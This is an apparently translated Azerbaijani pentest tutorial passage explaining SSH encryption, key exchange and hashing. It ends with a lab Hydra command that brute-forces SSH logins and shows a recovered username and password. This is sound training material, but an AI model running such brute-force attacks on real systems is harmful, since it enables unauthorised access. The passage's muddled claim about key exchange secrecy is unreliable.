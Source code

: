 -----

## SSH

**Secure Shell** (**SSH**) uzaq bir hosta qoşulmaq, sistem əmrlərini icra etmək və ya bir hostdan serverə faylları ötürmək üçün daha təhlükəsiz bir yoldur. SSH serveri defolt olaraq **TCP port 22** üzərində işləyir, biz isə ona bir SSH klienti istifadə edərək qoşula bilərik. Bu xidmət üç fərqli kriptoqrafiya əməliyyatı/metodu istifadə edir: **simmetrik** şifrələmə, **asimmetrik** şifrələmə və **hashing** (heşləmə).

### Simmetrik Şifrələmə

Simmetrik şifrələmə şifrələmə və şifrənin açılması üçün **eyni açarı** istifadə edir. Açarə çıxışı olan hər kəs ötürülən məlumatlara da çıxış əldə edə bilər. Buna görə də, təhlükəsiz simmetrik şifrələmə üçün bir açar mübadiləsi proseduruna ehtiyac var. Bunun üçün **Diffie-Hellman açar mübadiləsi** metodu istifadə olunur. Əgər üçüncü tərəf açarı əldə etsə belə, mesajları deşifrə edə bilməz, çünki açar mübadiləsi metodu naməlumdur. Lakin, bu, məlumatlara daxil olmaq üçün lazım olan gizli açarı müəyyənləşdirmək üçün server və klient tərəfindən istifadə olunur. AES, Blowfish, 3DES və s. kimi simmetrik şifrələmə sisteminin bir çox müxtəlif variantları istifadə edilə bilər.

### Asimmetrik Şifrələmə

Asimmetrik şifrələmə **iki açar** istifadə edir: bir **xüsusi açar** və bir **ictimai açar**. Xüsusi açar gizli qalmalıdır, çünki yalnız o, ictimai açarla şifrələnmiş mesajları deşifrə edə bilər. Əgər bir hücumçu, tez-tez şifrə ilə qorunmayan xüsusi açarı əldə edərsə, etimadnamə olmadan sistemə daxil ola bilər. Bir əlaqə qurulduqdan sonra, server başlanğıc və autentifikasiya üçün ictimai açarı istifadə edir. Əgər klient mesajı deşifrə edə bilirsə, onun xüsusi açarı var və SSH seansı başlaya bilər.

### Hashing (Heşləmə)

Heşləmə metodu ötürülən məlumatları başqa bir unikal dəyərə çevirir. SSH mesajların həqiqiliyini təsdiqləmək üçün heşləmə istifadə edir. Bu, yalnız bir istiqamətdə işləyən riyazi bir alqoritmdir.

### Hydra - SSH

SSH-a brute force hücumu etmək üçün **Hydra** kimi bir alət istifadə edə bilərik. Bu, **Login Brute Forcing** modulunda ətraflı şəkildə əhatə olunur.

```bash
nijatmansimov@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
